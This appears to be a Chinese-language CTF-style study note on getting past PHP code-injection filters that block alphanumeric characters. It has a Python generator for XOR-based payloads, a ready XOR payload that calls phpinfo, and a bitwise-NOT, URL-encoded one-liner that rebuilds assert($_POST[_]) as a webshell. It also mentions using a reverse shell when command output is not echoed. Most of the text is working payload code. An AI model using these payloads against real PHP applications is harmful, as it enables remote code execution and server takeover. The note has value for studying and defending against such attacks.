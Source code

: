 #### 异或运算绕过

利用符号进行异或运算，获取想要得到的值

给出脚本

```python
target = 'phpinfo'
def generate_xor_payload(target:str):
    result1 = []
    result2 = []
    for char in target:
        found = False
        for i in range(32,127):
            if chr(i).isalnum():
                continue
            for j in range(32,127):
                if chr(j).isalnum():
                    continue
                if (i ^ j) == ord(char):
                    result1.append(chr(i))
                    result2.append(chr(j))
                    found = True
                    break
            if found:
                break
    return ''.join(result1),''.join(result2)

if __name__ == "__main__":
    part1,part2=generate_xor_payload(target)
    print(f"异或运算第一部分：{part1}")
    print(f"异或运算第二部分：{part2}")
```

phpinfo = "+(+).&/" ^ "[@[@@@@"

`?cmd = $_="+(+).&/" ^ "[@[@@@@";$_();`

直接提交有问题，+会被当空格，需要url编码

**php5   assert($\_POST['\_'])**

![image-20250809120234772](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250809120234772.png)

**php7   ``**

问题是``执行命令不回显？反弹shell

#### 取反运算绕过

```php
$_=~(%9E%8C%8C%9A%8D%8B);    //这里利用取反符号把它取回来，$_=assert
$__=~(%A0%AF%B0%AC%AB);      //$__=_POST
$___=$$__;                   //$___=$_POST
$_($___[_]);                 //assert($_POST[_]);
放到一排就是：
$_=~(%9E%8C%8C%9A%8D%8B);$__=~(%A0%AF%B0%AC%AB);$___=$$__;$_($___[_]);
```
